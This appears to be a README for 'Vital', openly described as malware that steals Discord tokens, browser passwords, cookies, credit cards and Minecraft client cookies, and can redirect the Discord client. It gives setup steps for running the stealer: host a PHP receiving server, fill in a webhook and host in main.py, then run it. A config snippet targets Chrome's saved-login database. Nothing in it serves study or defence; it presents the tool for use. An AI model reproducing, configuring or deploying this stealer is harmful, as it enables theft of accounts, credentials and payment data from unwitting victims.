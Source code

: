 # Vital
- What is Vital?
> Vital is malware primarily used to collect and
> extract information from the Discord desktop client.
> While it has other features (MC stealer, browser tools)
> it really shines in this area.

- Overview of Vital
> Vital has the ability to steal browser passwords, cookies, and credit cards.
> It also collects Discord tokens, Minecraft client cookies and can redirect
> the Discord client to an alternative web address.

- Support / coverage
> Vital supports a plethora of Discord clients and browsers,
> from commonly used browsers such as Chrome and Firefox to
> lesser used browsers such as (i don't know)

# Usage
Setup a webserver on either a local machine or a remote machine, hosting the
PHP file. Once you have your local server setup, make sure to configure everything
**__properly__** inside of `main.py`.

- Example
```python
WEBHOOK = '
REDIRECT = ''
HOST = '
CHROME_DATA = '\\AppData\\Local\\Google\\Chrome\\User Data\\Default\\Login Data'
USERNAME = os.environ.get('USERNAME')
APPDATA = os.getenv('APPDATA')

DEBUG = False
```

After this you can execute `main.py` and watch the magic happen!







